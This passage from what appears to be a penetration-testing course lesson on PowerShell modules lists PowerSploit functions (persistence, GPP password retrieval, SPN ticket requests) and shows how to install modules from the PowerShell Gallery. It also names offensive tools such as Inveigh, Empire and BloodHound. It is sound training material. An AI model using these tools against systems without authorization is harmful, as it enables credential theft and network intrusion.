Alias           Invoke-UserHunter                                  3.0.0.0    PowerSploit
Alias           Request-SPNTicket                                  3.0.0.0    PowerSploit
Alias           Set-ADObject                                       3.0.0.0    PowerSploit
Function        Add-Persistence                                    3.0.0.0    PowerSploit
Function        Add-ServiceDacl                                    3.0.0.0    PowerSploit
Function        Find-AVSignature                                   3.0.0.0    PowerSploit
Function        Find-InterestingFile                               3.0.0.0    PowerSploit
Function        Find-LocalAdminAccess                              3.0.0.0    PowerSploit
Function        Find-PathDLLHijack                                 3.0.0.0    PowerSploit
Function        Find-ProcessDLLHijack                              3.0.0.0    PowerSploit
Function        Get-ApplicationHost                                3.0.0.0    PowerSploit
Function        Get-GPPPassword                                    3.0.0.0    PowerSploit
```

Use the [PowerShel Gallery](https://www.powershellgallery.com/) to learn of many different types of modules. From simple Cmdlets for user attributes to solving complex cloud storage issues.

Say we want to explore the `Find-Module` function from the `PowerShellGet` module to get the [`AdminToolbox`](https://www.powershellgallery.com/packages/AdminToolbox/11.0.8) module for ActiveDirectory Management.

```PowerShell
PS C:\htb> Find-Module -Name AdminToolbox 

Version    Name                                Repository           Description
-------    ----                                ----------           -----------
11.0.8     AdminToolbox                        PSGallery            Master module for a col...

PS C:\htb> find-module -Name AdminToolbox | Install-Module
```

This will download the module from `powershellgallery.com`.

### Tools To Be Aware Of

Below we will quickly list a few PowerShell modules and projects we, as penetration testers and sysadmins, should be aware of. Each of these tools brings a new capability to use within PowerShell. Of course, there are plenty more than just our list; these are just several we find ourselves returning to on every engagement.

- [AdminToolbox](https://www.powershellgallery.com/packages/AdminToolbox/11.0.8): AdminToolbox is a collection of helpful modules that allow system administrators to perform any number of actions dealing with things like Active Directory, Exchange, Network management, file and storage issues, and more.

- [ActiveDirectory](https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps): This module is a collection of local and remote administration tools for all things Active Directory. We can manage users, groups, permissions, and much more with it.

- [Empire / Situational Awareness](https://github.com/BC-SECURITY/Empire/tree/master/empire/server/data/module_source/situational_awareness): Is a collection of PowerShell modules and scripts that can provide us with situational awareness on a host and the domain they are apart of. This project is being maintained by BC Security as a part of their Empire Framework.

- [Inveigh](https://github.com/Kevin-Robertson/Inveigh): Inveigh is a tool built to perform network spoofing and Man-in-the-middle attacks.

- [BloodHound / SharpHound](https://github.com/SpecterOps/BloodHound-Legacy/tree/master/Collectors): Bloodhound/Sharphound allows us to visually map out an Active Directory Environment using graphical analysis tools and data collectors written in C# and PowerShell.

## User and Group management